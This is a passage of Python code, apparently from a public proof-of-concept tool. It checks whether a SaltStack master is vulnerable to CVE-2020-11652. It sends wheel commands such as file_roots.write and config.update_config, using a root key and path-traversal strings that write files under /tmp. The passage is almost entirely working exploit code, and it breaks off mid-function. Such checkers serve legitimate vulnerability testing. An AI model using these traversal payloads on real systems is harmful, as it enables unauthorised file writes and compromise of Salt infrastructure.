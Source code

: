 ```python
    print("TIMEOUT")
  except:
    print("ERROR")
    raise
  else:
    if debug:
      print()
      print(rets)
    if rets['data']['return']:
      print("YES")
    else:
      print("NO")

def check_CVE_2020_11652_write1(debug, channel, root_key):
  print("[+] Checking if vulnerable to CVE-2020-11652 (write1)... ", end='')
  sys.stdout.flush()

  # try read file
  msg = {
    'key': root_key,
    'cmd': 'wheel',
    'fun': 'file_roots.write',
    'path': '../../../../../../../../tmp/salt_CVE_2020_11652',
    'data': 'evil',
    'saltenv': 'base',
  }

  try:
    rets = channel.send(msg, timeout=3)
  except salt.exceptions.SaltReqTimeoutError:
    print("TIMEOUT")
  except:
    print("ERROR")
    raise
  else:
    if debug:
      print()
      print(rets)

    pp(rets)
    if rets['data']['return'].startswith('Wrote'):
      try:
        os.remove('/tmp/salt_CVE_2020_11652')
      except OSError:
        print("Maybe?")
      else:
        print("YES")
    else:
      print("NO")

def check_CVE_2020_11652_write2(debug, channel, root_key):
  print("[+] Checking if vulnerable to CVE-2020-11652 (write2)... ", end='')
  sys.stdout.flush()

  # try read file
  msg = {
    'key': root_key,
    'cmd': 'wheel',
    'fun': 'config.update_config',
    'file_name': '../../../../../../../../tmp/salt_CVE_2020_11652',
    'yaml_contents': 'evil',
    'saltenv': 'base',
  }
```